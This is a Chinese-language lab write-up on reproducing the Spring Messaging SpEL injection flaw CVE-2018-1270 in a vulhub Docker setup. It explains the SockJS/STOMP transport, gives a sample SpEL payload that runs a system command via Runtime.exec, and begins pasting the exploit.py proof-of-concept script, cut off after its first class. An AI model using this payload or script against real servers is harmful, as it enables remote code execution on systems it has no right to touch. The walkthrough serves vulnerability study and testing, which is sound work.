 

漏洞环境搭建

Ubantu、docker、vulhub

```
spring-messaging:5.0.4
cd ./vulhub/spring/CVE-2018-1270

docker-compose up -d
```

 环境启动后，访问`http://192.168.1.10:8080`即可看到一个Web页面。  



漏洞复现

 网上大部分文章都说spring messaging是基于websocket通信，其实不然。spring messaging是基于sockjs（可以理解为一个通信协议），而sockjs适配多种浏览器：现代浏览器中使用websocket通信，老式浏览器中使用ajax通信。  

 连接后端服务器的流程，可以理解为：  

1. 用[STOMP协议](http://jmesnil.net/stomp-websocket/doc/)将数据组合成一个文本流
2. 用[sockjs协议](https://github.com/sockjs/sockjs-client)发送文本流，sockjs会选择一个合适的通道：websocket或xhr(http)，与后端通信

 所以我们可以使用http来复现漏洞，称之为“降维打击”。  

通过POC脚本[exploit.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2018-1270/exploit.py)（需要用python3.6执行），因为该漏洞是订阅的时候插入SpEL表达式，而对方向这个订阅发送消息时才会触发，所以我们需要指定的信息有： 

1. 基础地址，在vulhub中为`http://your-ip:8080/gs-guide-websocket`
2. 待执行的SpEL表达式，如`T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')`
3. 某一个订阅的地址，如vulhub中为：`/topic/greetings`
4. 如何触发这个订阅，即如何让后端向这个订阅发送消息。在vulhub中，我们向`/app/hello`发送一个包含name的json，即可触发这个事件。当然在实战中就不同了，所以这个poc并不具有通用性。

  根据你自己的需求修改POC。如果是vulhub环境，你只需修改1中的url即可。  

```python
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

```